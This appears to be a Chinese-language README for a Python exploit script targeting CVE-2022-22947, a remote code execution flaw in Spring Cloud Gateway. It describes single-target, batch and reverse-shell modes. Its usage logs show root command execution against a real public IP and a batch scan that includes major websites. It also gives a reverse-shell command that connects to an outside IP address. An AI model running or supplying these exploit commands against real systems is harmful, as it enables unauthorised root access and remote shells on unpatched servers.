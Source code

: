 ## 一、Spring Cloud Gateway远程代码执行漏洞

   危害等级：高危

   POC/EXP情况：已公开

   CNVD编号：CNNVD-2022-16402

​	CVE编号：CVE-2022-22947

## 二、影响范围：

- - VMWare Spring Cloud GateWay 3.1.0
  - VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6
  - VMWare Spring Cloud GateWay <3.0.0

## 三、漏洞描述

  Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。

## 四、CVE-2022-22947的使用

### （一）脚本特点

1、支持单个目标验证

2、支持批量漏洞验证

3、支持反弹shell

### （二）脚本参数

```
-h   查看帮助信息
-u   指定url目标
-c   指定需要执行的命令，默认执行id
-f   指定目标url文件
```

### （三）脚本使用

**1.单个目标验证**

方式一：

```shell
E:\pocs>python cve-2022-22947.py

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

请输入一个目标url地址：http://123.58.236.76:8484
请输入想要执行的命令，默认执行id：whoami
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

方式二：

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -u http://123.58.236.76:8484 -c whoami

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

**2、批量验证**

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -f url.txt

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[-]目标：http://www.baidu.com,漏洞验证失败，请手动验证!
[-]目标：http://www.qq.com,漏洞验证失败，请手动验证!
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
```

**3.反弹shell**

```shell
python cve-2022-22947.py -u http://123.58.236.76:8484 -c "bash -i >& /dev/tcp/139.9.188.13/65534 0>&1"
```

![image-20220519233354807](E:\learn\python\pocs\pocs\Readme.assets\image-20220519233354807.png)

![image-20220519233429912](E:\learn\python\pocs\pocs\Readme.assets\image-20220519233429912.png)